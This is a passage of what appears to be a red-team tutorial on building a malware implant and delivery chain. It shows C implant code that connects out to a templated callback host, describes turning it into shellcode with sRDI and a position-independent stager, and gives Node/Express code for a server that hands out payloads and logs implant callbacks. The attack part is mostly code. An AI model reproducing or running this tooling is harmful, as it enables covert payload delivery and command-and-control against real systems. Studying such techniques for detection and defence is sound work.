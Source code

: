 And our implant:

```c
char sitename[] = "%SITENAME%";
    int port = %PORT%;
    HINTERNET hConnect = InternetConnectA(hInternet, sitename, port, NULL, NULL, INTERNET_SERVICE_HTTP, 0, NULL);
    if (hConnect == NULL) {
        return 1;
    }
    const char* acceptTypes[] = { '*','/','*', NULL };
    char method[] = "GET";
    char site_param[] = "%SITEPARAM%";
```

## Next steps

So far we've done the following:

- Implemented a basic implant stand-in that will connect to /success
- Converted our implant to shellcode with sRDI
- Compiled a PIC stager with mingw-w64 and extracted the shellcode from the .text section

This is all great, but so far all of our information has been hardcoded and payloads are static. Now let's take a look at writing a basic server that will take a host, port, and endpoint, and dynamically generate a stager + full payload. I'm going to write this in Node+Express, but you can do this in whatever language. Python's Flask library would be a great alternative.

First we'll import all of our libraries

```c
//Our HTTP server library
const express = require('express')
//Used for reading files
const fs = require('fs')
var app = express();

const util = require('util')
//Lets us start child processes asynchronously
const exec = util.promisify(require('child_process').exec);
```

Then we'll define one endpoint to allow fetching payloads, and another to alert us when our success endpoint is requested.

```c
app.get('/payloads/:payloadname', async function (req, res){
  console.log(`Payload requested: ${req.params.payloadname}`)
  fs.readFile(`./payloads/${req.params.payloadname}`, null, function(err, data){
    res.send(data)
  })
})

app.get('/success', async function (req, res){
  console.log('Success!')
  res.sendStatus(200)
})
```
